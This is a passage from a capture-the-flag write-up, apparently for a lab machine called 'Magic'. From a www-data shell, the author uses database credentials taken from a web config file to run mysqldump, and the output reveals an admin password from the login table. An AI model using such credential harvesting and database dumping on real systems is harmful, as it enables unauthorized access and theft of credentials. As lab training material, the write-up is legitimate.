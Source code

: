 > The mysqldump client utility performs logical backups, producing a set of SQL statements that can be executed to reproduce the original database object definitions and table data. It dumps one or more MySQL databases for backup or transfer to another SQL server. The mysqldump command can also generate output in CSV, other delimited text, or XML format.

Sounds like a nice and easy way to quickly dump the database! The file `db.php5` in the web directory told me the database name was `Magic` and also gave me the username and password.

```text
www-data@ubuntu:/usr/bin$ mysqldump --databases Magic -u theseus -p            
Enter password: 
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)u theseus -p imamkingthese
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
```